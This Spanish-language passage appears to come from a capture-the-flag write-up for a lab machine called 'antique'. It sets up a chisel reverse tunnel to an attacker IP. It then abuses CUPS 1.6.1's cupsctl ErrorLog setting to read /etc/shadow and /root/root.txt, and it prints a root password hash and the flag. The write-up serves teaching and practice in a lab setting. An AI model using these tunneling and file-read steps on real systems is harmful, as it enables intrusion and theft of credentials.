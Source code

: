 #### Maquina local o server
>```bat
>sudo ./chisel server -p 8000 --reverse
>```


#### Maquina victima "antique" o cliente
>```bash
>lp@antique:/tmp$ ./chisel client 10.10.16.5:8000 R:631:127.0.0.1:631
>2022/08/19 03:26:56 client: Connecting to ws://10.10.16.5:8000
>2022/08/19 03:26:58 client: Connected (Latency 82.85672ms)
>```

Para verificar el la conexion de port forwarding ingresamos al explorador porla ruta local *_http://127.0.0.1:631/_*
> ![alt text](https://i.postimg.cc/66HFt4QG/cups.png)

En la imagen anterior se puede evidenciar que en el puerto 631, muestra al pagina de administración del servicio cups 1.6.1, por lo que se puede validar con search exploit si es vulnerable. Se puede ver que en el menu de adminisración hay la opcion ver archivos de registros, y ErrorLog, muestra los registros de error.log.
> ![alt text](https://i.postimg.cc/qvkPrffj/cups2.png)

Como el servicio de administración utiliza privilegios de root, se puede uitilizar el comando cupsctl para cambiar la ruta de la variable Erro_log

>```bash
>cupsctl ErrorLog="/etc/shadow"
>lp@antique:/tmp$ curl -s -X GET http://localhost:631/admin/log/error_log
>root:$6$UgdyXjp3KC.86MSD$sMLE6Yo9Wwt636DSE2Jhd9M5hvWoy6btMs.oYtGQp7x4iDRlGCGJg8Ge9NO84P5lzjHN1WViD3jqX/VMw4LiR.:18760:0:99999:7:::
>daemon:*:18375:0:99999:7:::
>bin:*:18375:0:99999:7:::
>sys:*:18375:0:99999:7:::
>sync:*:18375:0:99999:7:::
>games:*:18375:0:99999:7:::
>man:*:18375:0:99999:7:::
>```

Ahora podemos utilizar cupstl para mostrar el contenido del archivo root.txt

>```rubi
>lp@antique:~$ cupsctl ErrorLog="/root/root.txt"
>lp@antique:~$ curl -s -X GET http://localhost:631/admin/log/error_log
>1f9853e434974f52ce9dc347e4519e13
>```